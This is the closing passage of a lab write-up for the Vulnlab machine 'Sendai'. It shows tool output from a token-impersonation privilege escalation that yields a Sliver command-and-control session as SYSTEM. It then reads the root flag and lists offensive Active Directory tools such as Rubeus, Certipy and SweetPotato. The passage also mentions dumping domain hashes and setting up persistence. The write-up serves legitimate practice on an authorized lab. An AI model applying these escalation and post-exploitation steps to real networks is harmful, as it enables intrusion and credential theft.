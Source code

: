 ```
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

[*] Session 4afdd3a6 sendai - 10.10.98.227:49917 (dc) - windows/amd64 - Sun, 07 Jul 2024 00:47:19 EDT
```

If all was done correctly, this should generate a Sliver callback session as SYSTEM as it did for me denoted above. Since we have an account as SYSTEM, we can now essentially control the machine as we'd like. We can dump all of the domain user hashes and secrets, establish persistence through services, etc.

Since we have access as SYSTEM though, we can read the root flag of this machine. This means we have successfully compromised this machine using this method!

```
sliver (sendai) > cat "C:\Users\Administrator\Desktop\root.txt"

VL[...snip...]
```

![](/images/vulnlab/sendai-vl/k.png)

# Conclusion

This machine was an incredible environment that helped me bounce off of tactics that I had actually learned in previous Vulnlab machines. Using ADCS or creating a Silver ticket through MSSQL is something that I've done before, and it was really great to be able to put that same knowledge into this machine. There could potentially be other methods that I am not aware about, but nonetheless I think I'm satisfied with the work that I've done for Sendai.

Big thanks goes out to xct for the development of this machine and for the continued practice with red teaming.

# Resources

https://github.com/dirkjanm/BloodHound.py
https://github.com/dirkjanm/krbrelayx
https://github.com/GhostPack/Seatbelt
https://github.com/itm4n/PrivescCheck
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
https://github.com/GhostPack/Certify
https://github.com/GhostPack/Rubeus
https://github.com/ly4k/Certipy
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket
https://github.com/BishopFox/sliver
https://codebeautify.org/ntlm-hash-generator
https://github.com/bugch3ck/SharpEfsPotato
https://github.com/CCob/SweetPotato